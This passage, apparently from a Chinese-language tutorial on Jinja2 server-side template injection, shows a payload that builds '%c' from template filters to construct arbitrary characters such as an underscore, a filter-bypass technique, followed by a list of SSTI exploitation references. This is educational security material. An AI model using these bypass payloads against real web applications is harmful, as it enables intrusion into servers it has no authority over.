 #### `拼接%c构造任意字符`
```python
{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc=bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接

{% set c = dict(c=aa)|reverse|first %}
{% set bfh = self|string|urlencode|first %}
{% set bfhc=bfh~c %}
{% set xhx = bfhc%(95) %}{{xhx}}
```



## 参考
[\[1\] SSTI服务端模板注入漏洞原理详解及利用姿势集锦](https://www.cnblogs.com/2ha0yuk7on/p/16648850.html)\
[\[2\] SSTI进阶](https://chenlvtang.top/2021/03/31/SSTI%E8%BF%9B%E9%98%B6/#google_vignette)\
[\[3\] Python中的SSTI之Jinja2](https://jarenl.com/index.php/2024/11/15/jinja2/)\
[\[4\] SSTI(Server-Side Template Injection)模板注入的初学习](https://www.cnblogs.com/NbCares/articles/17521233.html)\
[\[5\] 一文了解SSTI和所有常见payload 以flask模板为例](https://cloud.tencent.com/developer/article/2130787)\
[\[6\] jinja官方文档--内置过滤器清单](https://jinja.palletsprojects.com/en/stable/templates/#jinja-filters.abs)\
[\[7\] Python SSTI利用jinja过滤器进行Bypass](https://cloud.tencent.com/developer/article/2287112)